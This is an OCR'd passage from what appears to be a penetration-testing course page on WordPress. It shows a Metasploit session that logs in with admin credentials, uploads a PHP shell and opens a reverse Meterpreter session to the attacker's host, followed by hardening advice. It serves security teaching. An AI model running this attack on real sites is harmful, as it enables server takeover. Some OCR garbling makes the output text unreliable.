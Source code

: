 ```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```

# Security Measures

## Wordpress Hardening

Below are some best practices for preventing attacks against a WordPress site.
Perform Regular Updates

This is a key principle for any application or system and can greatly reduce the risk of a successful attack. Make sure that WordPress core, as well as all installed plugins and themes, are kept up-to-date. Researchers continuously find flaws in third-party WordPress plugins. Some hosting providers will even perform continuous automatic updates of WordPress core. The WordPress admin console will usually prompt us when plugins or themes need to be updated or when WordPress itself requires an upgrade. We can even modify the wp-config.php file to enable automatic updates by inserting the following lines:

``` php
define( 'WP_AUTO_UPDATE_CORE', true );
```

``` php
add_filter( 'auto_update_plugin', '__return_true' );
```

``` php
add_filter( 'auto_update_theme', '__return_true' );
```

Only install trusted themes and plugins from the WordPress.org website. Before installing a plugin or theme, check its reviews, popularity, number of installs, and last update date. If either has not been updated in years, it could be a sign that it is no longer maintained and may suffer from unpatched vulnerabilities. Routinely audit your WordPress site and remove any unused themes and plugins. This will help to ensure that no outdated plugins are left forgotten and potentially vulnerable.
Enhance WordPress Security
